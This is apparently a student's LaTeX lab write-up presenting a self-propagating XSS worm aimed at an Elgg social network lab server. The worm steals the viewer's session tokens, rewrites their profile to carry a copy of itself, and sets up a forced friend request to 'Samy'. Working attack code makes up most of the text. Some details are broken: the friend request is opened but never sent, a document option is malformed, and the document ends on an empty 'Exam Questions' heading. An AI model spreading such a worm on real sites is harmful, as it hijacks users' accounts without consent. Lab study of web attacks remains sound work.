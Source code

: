 \documentclass[10pt,\jkfside,a4paper]{article}
\begin{document}
\subsection{Task 6: Writing a Self-Propogating XSS Worm}

I merged the scripts from the previous two tasks and used the DOM method to
create the following script. This script automatically copies itself into
the profile of anyone who sees it and adds Samy as a friend.

\begin{lstlisting}[language=javascript]
<script id="worm">
window.onload = function(){
  var headerTag = "<script id=\"worm\">";
  var jsCode = document.getElementById("worm").innerHTML;
  var tailTag = "</" + "script>";
  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag +
	"<p>Samy is my Hero!<\/p>");

  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  var content= token+ts+userName + "&description=" + wormCode +
	"&accesslevel[description]=2" + guid;

  var samyGuid=59;
  var sendurlprofile="http://www.seed-server.com/action/profile/edit";
  var sendurlfriend="http://www.seed-server.com/action/friends/add?friend=59" +
	ts + token;

  if(elgg.session.user.guid != samyGuid){
    var Ajax=null;
    Ajax=new XMLHttpRequest();
    Ajax.open("POST", sendurlprofile, true);
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send(content);

    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurlfriend, true);
  }
}
</script>
<p>Samy is my Hero!</p>
\end{lstlisting}

\part{Exam Questions}
\end{document}
